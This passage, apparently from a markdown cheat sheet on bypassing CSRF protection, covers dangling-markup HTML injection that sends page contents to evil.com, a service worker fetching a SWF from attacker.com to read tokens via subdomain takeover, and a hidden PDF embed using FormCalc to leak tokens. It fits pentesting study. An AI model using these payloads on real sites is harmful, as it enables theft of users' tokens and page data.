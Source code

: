   ```
  <img src='https://evil.com/log_csrf?html=
  <form action='http://evil.com/log_csrf'><textarea> 
  ```

  - As a result, part of the DOM HTML page will be sent to the attacker's resource



**3. Vulnerable subdomain**

- If Subdomain vulnerable to **Takeover or XSS**, attacker can steal Token as :

  - If main app uses **CORS** to interact w subdomains, the attacker can simply read the CSRF token from the subdomain, which he controls.

  - If **crossdomain.xml** file on main domain *(This file is used by flash and pdf plugins for subdomain interaction, and is allowed to access it from any subdomains)*

    ```
    <cross-domain-policy>
        <allow-access-from domain="*.example.com" />
    </cross-domain-policy>
    ```

    - If an attacker can upload a JS file to *foo.example.com* , then in this case he can use the Service Worker API for the subdomain foo.example.com, which actually gives the flash file

      ```
      var url = "https://attacker.com/bad.swf"; 
      onfetch = (e) => { 
         e.respondWith(fetch(url); 
      }
      ```

    - Since we have crossdomain.xml on the main domain, which allows  interaction between subdomains, the attacker simply reads the CSRF token through this SWF

    - Even if CORS is not configured and there is no crossdomain.xml file, but Double submit cookie protection is used, an attacker can **simply insert a cookie** from the subdomain for the parent domain to the path where he  wants to exploit CSRF, and thus bypass Double submit cookie protection



**4. Bad PDF**

- Adobe has a PDF plugin that is automatically installed when you install  Adobe Reader.

- This plugin supports the so-called FormCalc script (only works in IE 11 and Firefox ESR now)

- FormCalc has two great methods: get () and post (). An attacker using  the get method can read the CSRF token using post to send to his site.  So the attacker receives the victim's CSRF token

  - Eg. The application has some API on the main domain, which allows you to get the contents of the downloaded file

  - Then the attacker can use an HTML page that embeds a PDF file using the embed tag, which the attacker uploaded to *example.com* :

    ```
    <h1>Nothing to see here!</h1> 
    <embed src="https://example.com/shard/x1/sh/leak.pdf" width="0" height="0" type='application/pdf'>
    ```
